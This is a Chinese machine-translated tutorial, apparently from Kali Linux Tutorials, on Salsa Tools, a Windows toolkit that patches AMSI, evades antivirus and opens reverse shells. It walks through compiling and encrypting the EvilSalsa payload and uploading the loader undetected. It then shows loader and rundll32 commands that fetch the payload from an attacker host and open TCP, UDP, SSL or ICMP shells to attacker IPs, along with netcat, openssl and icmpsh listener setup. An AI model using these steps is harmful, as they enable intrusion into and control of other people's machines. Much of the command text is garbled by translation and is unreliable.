









# Salsa 工具:shell reverse TCP/UDP/ICMP/DNS/SSL/bind TCP & AV Bypass，AMSI 补丁

> 原文：<https://kalilinuxtutorials.com/salsa-tools-shellreverse/>

Salsa Tools 是三个不同工具的集合，允许您在任何 Windows 环境中获得反向 shell，甚至不需要 PowerShell 来执行它。

为了避免最新的检测技术(AMSI)，大部分组件最初都是用 C#编写的。Salsa Tools 由 Luis Vacas 在 2019 年 2 月 9 日 h-c0n 期间举行的“in mersón en la explota ción tiene Rima”演讲中公开发布。

**特性**

*   TCP/UDP/ICMP/DNS/BIND/SSL
*   AV 保险箱(2 月 17 日)
*   AMSI·派奇斯
*   PowerShell 执行

**也可阅读-[what Web:下一代网络扫描仪](https://kalilinuxtutorials.com/whatweb-next-generation-web-scanner/)**

**设置**

**要求**

*   Visual Studio 2017(或类似版本)
*   Python 2.7

**奔跑的拉莎莎**

EvilSalsa 是这个食谱的关键成分。它包含有效载荷，在系统上执行如下:有效载荷一启动，它就运行`**System.Management.Automation.dll**`，创建一个运行空间。

在这个运行空间中，我们有四种类型的 shell(TCP/UDP/ICMP/DNS/bind TCP)。一旦加载了 EvilSalsa，首先要检查`**c:\windows\system32\amsi.dll**`是否存在。如果存在的话，它会被一个自制的 CyberArk 和 Rastamouse 的变种所修补。

**混合 EncrypterAssembly 和 Evilsalsa**

EncrypterAssembly 可以用作 Python 脚本或 Exe 二进制文件。它加密先前生成的 EvilSalsa。

Python 用法:

**python encrypterasmbly . py**<file>**<password></password>**</file>

 ****可执行文件用法:

**Encrypterassembly.exe**<file>T3T5**T7**</file>

**用 SalseoLoader 将加密的 EvilSalsa 带到餐桌上**

SalseoLoader 负责加载加密的有效载荷。既可以编译为库，也可以编译为可执行文件。如果它作为可执行文件运行，则必须在运行可执行文件时提供所选的参数。

如果它被编译成一个库，描述符“main”必须被导出。使用环境变量添加参数。

**用法:** 
–salseloader . exe 密码 http://web server . com/elpcinggal . txt revertcp lhost lport
–salseloader . exe 密码\ smbserver . com \ evil \ elpcinggal . txt reverseud lhost lport
–salseloader . exe 密码 c:\ temp \ elpcinggal . txt reversecmp

**教程**

**编译二进制文件**

从 github 下载源代码，编译 **EvilSalsa** 和 **SalseoLoader** 。你需要安装 **Visual Studio** 来编译代码。

针对您将要使用的 windows box 的体系结构编译这些项目(如果 windows 支持 x64，则针对该体系结构编译它们)。

您可以**在【平台目标】**的**左侧“构建”标签中选择 Visual Studio 内部的架构**。

(如果您找不到此选项，请在“**项目选项卡**中按下，然后在“**属性**”中按下)

然后，构建两个项目(构建->构建解决方案)(在日志中会出现可执行文件的路径):

**准备借壳**

首先，你需要对**EvilSalsa.dll**进行编码。为此，可以使用 python 脚本**encrypterasembly . py**或者编译项目**encrypterasembly**

**Python**

python encrypterasembly/encrypterasembly . py <file><password><output_file>python encrypterasembly/encrypterasembly . py EvilSalsa.dll 密码 evilsalsa.dll.txt</output_file></password></file>

**视窗**

EncrypterAssembly.exe<file><password></password></file>
<file><password><output_file>EncrypterAssembly.exe EvilSalsa.dll 密码 evil salsa . dll . txt</output_file></password></file>

好了，现在你已经拥有了执行 Salseo 所需的一切:SalseoLoader 的**编码 EvilDalsa.dll**和**二进制文件**。**把 SalseoLoader.exe 二进制文件上传到机器上。应该不会被任何 AV 察觉…**

**执行后门**

**获取 TCP 反向外壳(通过 HTTP 下载编码的 dll)**

记得启动一个 nc 作为反向 shell 监听器，并启动一个 HTTP 服务器来服务编码的 evilsalsa。

**SalseoLoader.exe 密码 http:///evil salsa . dll . txt reverset CP<攻击者-IP > <端口>**

**获取 UDP 反向 shell(通过 SMB 下载编码的 dll)**

记得启动一个 nc 作为反向 shell 监听器，并启动一个 SMB 服务器来服务编码的 evilsalsa (impacket-smbserver)。

**SalseoLoader.exe 密码\/folder/evil salsa . dll . txt reverseudp<攻击者-IP > <端口>**

**获取 TCP 反向外壳 SSL(使用本地文件)**

**在攻击者机器内部设置监听器:**

**OpenSSL req-x509-new key RSA:4096-keyut key . PEM-out cert . PEM-days 365-nodes
OpenSSL s _ server-key key key . PEM-cert cert . PEM-port**<port>**-TL S1**</port>

**执行后门:**

**SalseoLoader.exe 密码 C:/path/to/evil salsa . dll . txt ReverseSSL<攻击者-IP > <端口>**<attacker-ip></attacker-ip>

 ******获取 ICMP 反向外壳(已在受害者体内编码的 dll)**

**这时候你需要在客户端用一个特殊的工具来接收反向外壳。下载:【[https://github.com/inquisb/icmpsh](https://github.com/inquisb/icmpsh)】**

**禁用 ICMP 回复:**

**#完成后，您可以使其再次运行:
sysctl-w net . IP v4 . icmp _ echo _ ignore _ all = 0**

**执行客户端:**

**python icmpsh_m.py " <攻击者-IP > " " < Victm-IP > "**

**在受害者内部，让我们执行 salseo 的事情:**

**SalseoLoader.exe 密码 C:/Path/to/evil salsa . dll . txt reverse icmp<攻击者-IP >**

**将 SalseoLoader 编译成 DLL 导出主函数**

使用 Visual Studio 打开 SalseoLoader 项目。

**在主函数前添加:【DllExport】**

在主函数之前添加这一行:[DllExport]

**为此项目安装 DllExport】**

工具–> NuGet 包管理器–>管理解决方案的 nu get 包…

**搜索 DllExport 包(使用浏览选项卡)，然后按安装(并接受弹出菜单)**

在你的项目文件夹中出现了文件: **DllExport.bat** 和 **DllExport_Configure.bat**

**卸载 DllExport**

按下**卸载**(是的，这很奇怪，但相信我，这是必要的)

**退出 Visual Studio 并执行 DllExport_configure**

只需**退出** Visual Studio

然后，进入你的 **SalseoLoader 文件夹**和**执行 DllExport_Configure.bat** 选择 **x64** (如果你要在 x64 盒子里面使用它，那是我的情况)，选择**系统。Runtime.InteropServices** (在 DllExport 的**名称空间内)并按**应用****

**用 visual Studio 再次打开项目**

**【dll export】**不应再标记为错误

**构建解决方案**

选择**输出类型=类库**(项目—>salseo loader 属性—>应用—>输出类型=类库)

选择 **x64 平台**(项目—>salse loader 属性—>构建—>平台目标= x64)

为了**构建**解决方案:Build—>构建解决方案(在输出控制台内，新 DLL 的路径将会出现)

**测试生成的 Dll**

将 Dll 复制并粘贴到要测试的位置。

执行:

`rundll32.exe SalseoLoader.dll,main`

如果没有错误出现，可能你有一个功能 dll！！

**使用 Dll 获取外壳**

不要忘记使用一个 **HTTP 服务器并设置一个 nc 监听器**

**Powershell**

**$ env:pass = " password "
$ env:payload = " http://10 . 2 . 0 . 5/evilsalsax 64 . dll . txt "
$ env:lhost = " 10 . 2 . 0 . 5"
$ env:lport = " 1337"
$ env:shell = " reverset CP "
rundll32.exe salseo loader . dll，main**

**CMD**

**set pass = password
set payload = http://10 . 2 . 0 . 5/evil salsax 64 . dll . txt
set lhost = 10 . 2 . 0 . 5
set lport = 1337
set shell = reverset CP
rundll32.exe salseo loader . dll，main**

[**Download**](https://github.com/Hackplayers/Salsa-tools)********